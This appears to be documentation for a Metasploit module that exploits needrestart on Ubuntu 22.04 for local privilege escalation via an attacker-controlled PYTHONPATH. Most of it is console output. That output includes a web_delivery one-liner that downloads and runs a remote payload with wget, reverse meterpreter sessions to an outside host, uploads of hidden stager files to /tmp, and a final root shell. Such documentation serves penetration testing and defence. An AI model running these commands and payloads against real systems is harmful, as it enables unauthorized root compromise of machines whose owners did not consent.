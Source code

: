 ## Vulnerable Application

Local attackers can execute arbitrary code as root by
tricking needrestart into running the Python interpreter with an
attacker-controlled PYTHONPATH environment variable.

Verified against Ubuntu 22.04 with needrestart 3.5-5ubuntu2.1

## Verification Steps

1. Install the application
2. Start msfconsole
3. Get an initial shell
4. Do: `use exploit/linux/local/ubuntu_needrestart_lpe`
5. Do: `set lhost <ip>`
6. Do: `set lport <port>`
7. Do: `set session <session>`
8. Do: `run`
9. You should get a root shell.

## Options

## Scenarios

### Ubuntu 22.04 with needrestart 3.5-5ubuntu2.1

Gain initial shell

```
msf6 > use exploit/multi/script/web_delivery
998
run[*] Using configured payload python/meterpreter/reverse_tcp
msf6 exploit(multi/script/web_delivery) > set target 7
target => 7
msf6 exploit(multi/script/web_delivery) > set payload linux/x64/meterpreter/reverse_tcp
payload => linux/x64/meterpreter/reverse_tcp
msf6 exploit(multi/script/web_delivery) > set lhost 1.1.1.1
lhost => 1.1.1.1
msf6 exploit(multi/script/web_delivery) > set lport 4998
lport => 4998
msf6 exploit(multi/script/web_delivery) > set srvport 8998
srvport => 8998
msf6 exploit(multi/script/web_delivery) > run
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.
msf6 exploit(multi/script/web_delivery) > 
[*] Started reverse TCP handler on 1.1.1.1:4998 
[*] Using URL: http://1.1.1.1:8998/dKtdkMS
[*] Server started.
[*] Run the following command on the target machine:
wget -qO Ejq8lHli --no-check-certificate http://1.1.1.1:8998/dKtdkMS; chmod +x Ejq8lHli; ./Ejq8lHli& disown
[*] 2.2.2.2   web_delivery - Delivering Payload (250 bytes)
[*] Sending stage (3045380 bytes) to 2.2.2.2
[*] Meterpreter session 1 opened (1.1.1.1:4998 -> 2.2.2.2:52004) at 2024-11-22 12:07:55 -0500

msf6 exploit(multi/script/web_delivery) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > getuid
Server username: h00die
meterpreter > background
[*] Backgrounding session 1...
```

Priv Esc

```
msf6 exploit(multi/script/web_delivery) > use exploit/linux/local/ubuntu_needrestart_lpe
[*] No payload configured, defaulting to linux/x64/meterpreter/reverse_tcp
msf6 exploit(linux/local/ubuntu_needrestart_lpe) > set payload linux/x64/meterpreter/reverse_tcp
payload => linux/x64/meterpreter/reverse_tcp
msf6 exploit(linux/local/ubuntu_needrestart_lpe) > set lhost 1.1.1.1
lhost => 1.1.1.1
msf6 exploit(linux/local/ubuntu_needrestart_lpe) > set lport 4977
lport => 4977
msf6 exploit(linux/local/ubuntu_needrestart_lpe) > set session 1
session => 1
msf6 exploit(linux/local/ubuntu_needrestart_lpe) > set verbose true
verbose => true
msf6 exploit(linux/local/ubuntu_needrestart_lpe) > run

[*] Started reverse TCP handler on 1.1.1.1:4977 
[*] Running automatic check ("set AutoCheck false" to disable)

[+] The target appears to be vulnerable. Vulnerable needrestart version 3.5-5ubuntu2.1 detected on Ubuntu 22.04
[*] Writing '/tmp/.1K8Hy2tOtq' (250 bytes) ...
[*] Uploading payload: /tmp/.1K8Hy2tOtq
[*] Uploading c_stub: /tmp/.hnPKdLeU2s.c
[*] Uploading py_script: /tmp/.FzzlJ
[*] Uploading build and run script: /tmp/.h0IkpDa
[*] Launching exploit, and waiting for needrestart to run...
```

On the remote Ubuntu box run `sudo needrestart`

```
[*] Transmitting intermediate stager...(126 bytes)
[*] Sending stage (3045380 bytes) to 2.2.2.2
[*] chown: changing ownership of '/tmp/.1K8Hy2tOtq': Operation not permitted
[*] Error processing line 1 of /usr/lib/python3/dist-packages/zope.interface-5.4.0-nspkg.pth:
[*] 
[*]   Traceback (most recent call last):
[*]     File "/usr/lib/python3.10/site.py", line 192, in addpackage
[*]       exec(line)
[*]     File "<string>", line 1, in <module>
[*]   ImportError: dynamic module does not define module export function (PyInit_importlib)
[*] 
[*] Remainder of file ignored
[*] #########################
[*] 
[*] Dont mind the error message above
[*] 
[*] Waiting for needrestart to run...
[*] Payload owned by: root
[+] Deleted /tmp/.1K8Hy2tOtq
[+] Deleted /tmp/.hnPKdLeU2s.c
[+] Deleted /tmp/.FzzlJ
[+] Deleted /tmp/.h0IkpDa
[+] Deleted /tmp/importlib
[*] Meterpreter session 2 opened (1.1.1.1:4977 -> 2.2.2.2:57644) at 2024-11-22 12:08:28 -0500

meterpreter > 
meterpreter > getuid
Server username: root
```
